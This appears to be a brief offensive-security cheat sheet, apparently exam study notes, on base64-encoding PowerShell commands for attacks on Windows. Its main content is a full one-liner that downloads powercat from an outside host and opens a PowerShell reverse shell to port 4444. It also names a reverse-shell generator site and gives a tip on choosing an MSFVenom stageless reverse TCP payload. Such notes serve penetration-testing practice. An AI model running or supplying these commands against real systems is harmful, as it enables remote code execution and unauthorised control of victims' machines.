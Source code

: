 If you are attacking Windows, here is how to base64 encode in linux so that Windows can use it.

```console
echo -n "a powershell command" | iconv -f UTF-8 -t UTF-16LE | base64 -w 0
```
Here is an example that downloads powercat and then uses it to start a reverseshell
```console
echo -n "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1'); powercat -c 192.168.119.2 -p 4444 -e powershell" | iconv -f UTF-8 -t UTF-16LE | base64 -w 0
```
Great site for generating shells.
[Revshells.com](https://www.revshells.com/) 
<hr style="border-color:red"><p style="color:red">If you use MSFVenom, always use the 4th option Windows Stageless Reverse TCP so you get full points</p><hr style="border-color:red">
